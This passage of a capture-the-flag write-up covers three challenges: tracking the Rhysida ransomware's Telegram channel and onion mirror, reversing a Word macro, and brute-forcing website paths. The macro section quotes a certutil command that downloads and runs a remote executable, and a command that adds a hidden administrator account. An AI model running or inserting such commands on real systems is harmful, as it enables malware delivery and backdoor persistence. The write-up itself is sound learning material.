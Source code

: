 Reading it, it seems that they are referring to a pretty recent ransomware called `Rhysida`. I found a [blog](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-319a) that talks about it and also all the C2 IPs it connects to. I also found out that they operate in the Dark Web where they sell the information they stole from victims. 

<p align="center">
  <img src="https://github.com/warlocksmurf/localctf-writeups/assets/121353711/85f9e610-5492-4e01-ac9e-7da1ce3be0c1" width=50% height=50%>
</p>

This was kind of guessy cause no where in the question mentioned Telegram, but after receiving the hint, I went on Telegram and search `Rhysida` and found a chat room with a sameple flag.

<p align="center">
  <img src="https://github.com/warlocksmurf/localctf-writeups/assets/121353711/79a9d200-5ea4-4b13-b393-b5fe16d77c9b" width=50% height=50%>
</p>

Reading the chat, it seems that the flag is the mirror link of their onion page. This can be obtained in many sources like [this](https://github.com/fastfire/deepdarkCTI/blob/main/ransomware_gang.md)

PS: Random stuff I encountered:
* I found out the ransomware also attacked `Indah Water Konsortium` in Malaysia.
* I messaged a random Telegram bot when finding the chat room.

## Resign Letter [Rev]
Flag: `RWSC{p@ss123}`

We are given a weird document template file created by Microsoft Word. When opening it, macros can be found.

![image](https://hackmd.io/_uploads/BJ-lW6Hp6.png)

Opening the macro named `Test` as shown below provides us with the following code.

![image](https://hackmd.io/_uploads/rkgoLZaHap.png)

```
Shell ("cmd /c certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Adv_Sim/raw/main/lenovo.exe %temp%\lenovo.exe")
Shell ("cmd /c %temp%\lenovo.exe")
```

Downloading the mallicious binary and using strings, we can see that it executes:
```
cmd.exe /c net user f14g cEBzczEyMw== /ADD && net localgroup Administrators f14g /ADD
```

It tries to add the user `f14g` with password `cEBzczEyMw==` to the local machine and add it to the `Administrators` group. Decode the password with base64 for the flag.

## Bring Your Own Script [Web]
Flag: `RWSC{J4CKP0T}`

We are given a website that has multiple directories and the flag should be located in one of them. A script can be created to brute force each path and found out the flag was actually an image.
